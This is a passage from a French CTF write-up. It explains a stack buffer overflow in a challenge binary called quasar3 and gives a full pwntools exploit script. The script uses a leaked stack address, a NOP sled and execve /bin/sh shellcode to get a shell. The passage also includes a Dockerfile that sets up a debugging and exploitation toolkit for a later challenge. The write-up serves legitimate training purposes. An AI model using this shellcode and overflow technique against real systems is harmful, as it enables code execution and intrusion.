 Il faut 140 caractères pour atteindre `eip`.

L'emplacement du buffer sur la stack nous est leak par le programme. Nous utiliserons cette adresse pour faire notre programme sauter vers le shellcode qui sera sur notre stack. Les instructions `0x90` nop sled nous aident à  arriver plus facilement sur le shellcode sans avoir à calculer avec précision son emplacement.

```python
from pwn import *

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
shellcode2 = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

p = process("./quasar3")

raw_input("attach gdb")

p.recvuntil(b"0x")
leak = int(p.recv(8), 16)
log.info(f"leak={hex(leak)}")


flow = b"T" * 77
flow += b"\x90" * 30
flow += shellcode2
flow += p32(leak+80)

p.sendline(flow)

p.interactive()
```



## Quasar 4

Commençons par se mettre a l'aise pour résoudre ce challenge. Cette vidéo montre comment setup un environnement pour les challenges sur la corruption de mémoire.

Avec docker nous pouvons invoquer un container avec les outils préinstallés. Voici mon `Dockerfile`:

```dockerfile
#### Commandes :
# docker build -t ctf:debian4.19 .
# docker run --rm -v $PWD:/pwd --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -d --name ctf -i ctf:debian4.19
# docker exec -it ctf /bin/bash

FROM debian:10

RUN dpkg --add-architecture i386 && \
apt-get update && \
apt-get install -y build-essential jq strace ltrace curl wget rubygems gcc dnsutils netcat gcc-multilib \
net-tools vim gdb gdb-multiarch python python3 python3-pip python3-dev libssl-dev libffi-dev wget git make \
procps libpcre3-dev libdb-dev libxt-dev libxaw7-dev python-pip libc6:i386 libncurses5:i386 libstdc++6:i386 && \
pip install capstone requests pwntools r2pipe && \
pip3 install pwntools keystone-engine unicorn capstone ropper && \
mkdir tools && cd tools && \
git clone https://github.com/JonathanSalwan/ROPgadget && \
git clone https://github.com/radare/radare2 && cd radare2 && sys/install.sh

```